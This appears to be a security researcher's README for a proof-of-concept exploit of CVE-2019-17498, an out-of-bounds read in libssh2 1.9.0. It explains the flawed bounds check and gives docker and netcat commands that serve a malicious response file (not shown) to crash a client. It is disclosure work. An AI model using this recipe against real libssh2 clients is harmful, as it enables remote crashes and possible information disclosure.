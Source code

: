 # Out-of-bounds read in libssh2 (CVE-2019-17498)

[libssh2](https://www.libssh2.org/) version 1.9.0 contains a remotely triggerable out-of-bounds read, leading to denial of service or potentially to information disclosure. I reported this bug to libssh2-security@haxx.se on 2019-07-01. At the time of writing (2019-10-15), it has been [fixed on the master branch](https://github.com/libssh2/libssh2/pull/402/commits/1c6fa92b77e34d089493fe6d3e2c6c8775858b94), but a new official version containing a fix has not yet been released.

This directory contains a proof of concept exploit for the vulnerability. It uses [docker](https://www.docker.com/) to simulate two computers. The first is a server, with a simple [netcat](https://linux.die.net/man/1/nc) command listening on port 22. The second is a client, running `libssh2`. When the client attempts to connect to server, the server sends back a malicious response which triggers a segmentation fault in the client.

The source location of the vulnerability is [packet.c:480](https://github.com/libssh2/libssh2/blob/42d37aa63129a1b2644bf6495198923534322d64/src/packet.c#L480):

```c
if(message_len < datalen-13) {
```

The value of `datalen` is untrusted because it came from the remote computer. If `datalen == 11`, for example, then the subtraction will overflow and the bounds-check of `message_len` is ineffective, leading to an out-of-bounds read on [line 485](https://github.com/libssh2/libssh2/blob/42d37aa63129a1b2644bf6495198923534322d64/src/packet.c#L485).

## Network setup

Create a docker network bridge, to simulate a network with two separate computers.

```bash
docker network create -d bridge --subnet 172.18.0.0/16 libssh2-demo-network
```

## Server setup

Build the docker image:

```bash
docker build server -t libssh2-server --build-arg UID=`id -u`
```

Start the container:

```bash
docker run --rm --network libssh2-demo-network --ip=172.18.0.10 -i -t libssh2-server
```

Start the malicious "ssh server":

```bash
sudo nc -l -p 22 < poc.bin  # password is x
```

## Client setup

Build the docker image:

```bash
docker build client -t libssh2-client --build-arg UID=`id -u`
```

Start the container:

```bash
docker run --rm --network libssh2-demo-network --ip=172.18.0.11 -i -t libssh2-client
```

If you want to be able to debug libssh2 with gdb, then you need to start the container with a few extra arguments:

```bash
docker run --rm --network libssh2-demo-network --ip=172.18.0.11 --cap-add=SYS_PTRACE --security-opt seccomp=unconfined -i -t libssh2-client
```

In the container, attempt to connect to the server:

```bash
cd ~/libssh2/example
./ssh2 172.18.0.10
```

This command crashes with a segmentation fault.

If you would like to debug libssh2 with [gdb](https://www.gnu.org/software/gdb/), then start it like this:

```bash
cd ~/libssh2/example/.libs
LD_LIBRARY_PATH="/home/victim/libssh2/src/.libs:$LD_LIBRARY_PATH" gdb --args ./ssh2 172.18.0.10
```
